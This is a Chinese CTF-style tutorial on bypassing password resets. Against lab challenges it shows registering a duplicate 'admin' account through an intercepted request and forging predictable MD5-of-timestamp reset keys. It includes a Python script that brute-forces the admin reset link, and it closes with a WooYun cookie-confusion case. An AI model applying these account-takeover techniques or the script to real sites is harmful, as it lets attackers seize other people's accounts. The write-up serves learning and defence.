

<center>重置密码</center>

> 此章讲述重置密码的姿势


### 1.	手机号绕过


#### 1.	手机号绕过(简单)

> 此节是，CTF中的绕过姿势
>
> 我们正常的重置密码可以通过：注册和`admin`用户，用户名相同的账户。然后修改密码，这样`admin`用户的密码也被我们修改了。

> [地址](http://lab1.xseclab.com/base14_2d7aae2ae829d1d5f45c59e8046bbc54/)


首先看登录


此处想要重置`admin`用户密码的话，就必须先要注册一个账号


> 此处我们注册了一个用户名`user1`，密码`user1`的账号

> 有的网站直接就能注册一个叫`admin`的用户，修改密码的时候。直接就能重置原本`admin`账户密码

然后我们点击注册，接下来跳出一个绑定手机号的页面


> 此时使用的是隐藏在`html`页面的官方提供的手机号

接下来点击`Regist`，就是正式注册了。我们在这里抓一下包


> 此处我们就可以把用户名改成`admin`。这样我们就注册了一个id也是`admin`的用户了


然后去重置密码界面重置我们自己的`admin`的密码


> 此处重置我们`"admin"`用户的密码就好了

试题差不多到这就结束了


#### 2.	重置密码(解密)

> 有些的重置密码采用的是：发邮件，然后只要用户点击邮件链接后就算重置密码成功

> 其实也就是说，我们只要能伪造：发送到邮箱里的重置密码的请求就能成功重置密码

> 这道题仍然是`ctf`题


进入首页，如下：


此处我们直接进入`忘记密码`


接下来直接点击重置密码：

> 接下来模拟邮箱收到重置链接



> 此处就相当于邮箱中收到链接了
>
> 点击此处，就相当于重置成功了


我们分析一下这条链接

```
<a href="http://lab1.xseclab.com/password1_dc178aa12e73cfc184676a4100e07dac/reset.php?sukey=f04bddddd31c0c4ffc503da73f9dcd31&username=uu">重置密码</a>
```

> 可以看到重点在于`sukey`，中


日常的，我们md5解码一下，解码出来：

```
1582527035				//出来了个这个玩意，不知道是啥。如此的话我们多重置两次，分析一下


1582527037
1582527038
```

> 看起来这玩意相似一个不断加的数字。可以想象，既然他是有规律的，他会自动加，那么不是根据请求次数加的话，那么就有可能是根据时间加。而根据请求次数加的话感觉又不合理，比较是加密后的。而这时又想起来了时间戳这玩意。说不定是时间戳。

于是我们写脚本构建时间戳来不断的请求重置`admin`，用户

```
import hashlib
import time

s = requests.Session()
header = {'Cookie': 'saeut=125.122.24.125.1416063016314663; PHPSESSID=f533f185e50879070a2a303f6e6b2c27'}
while True:
    this = str(int(time.time()))
    md5 = hashlib.md5()
    md5.update(this.encode("utf-8"))
    pwd = md5.hexdigest()
    url = 'http://lab1.xseclab.com/password1_dc178aa12e73cfc184676a4100e07dac/reset.php?sukey=' + pwd + '&username=admin'
    r = s.get(url, headers=header)
    time.sleep(0.3)
    print(r.text)
    if(r.text != ''):
        print(r.url)
        print(r.content)
        break
    else:
        print('正在破解中……', pwd)
        print(r.url)
        print(r.text)
```

> 此处使用`python`的hash模块的md5加密方式。


然后我们继续不断的使用脚本，发请求


当然，这是根据邮件中的重置链接来请求的。如果邮件都不发的话，自然也不会有用。于是我们重置`admin`用户的密码


> 这样，管理员邮箱收到重置链接。我们再进行模拟重置链接，这样就能成功的重置管理员密码。


#### 3.	cookie混淆


乌云案例如下：

https://wooyun.laolisafe.com/bug_detail.php?wybug_id=wooyun-2016-0226583


类似案例：

https://wooyun.laolisafe.com/bug_detail.php?wybug_id=wooyun-2016-0225958


像这种问题实质上是因为验证码没有绑定用户


后端通过cookie来取用户，但验证码未绑定用户。而攻击者则先使用自己的账号获取验证码，然后再尝试重置目标账号，这样浏览器就有两个cookie。而攻击者直接把原本属于自己的验证码，给目标用户的验证码输入栏填上。这样就能使用目标用户的cookie来重置密码。


以上攻击本质上还是因为验证码没有绑定用户导致的。所以这个一定要避免。只要cookie没有绑定用户，就算发了验证码后，不能再修改用户名，也可以通过cookie混淆的方式来攻击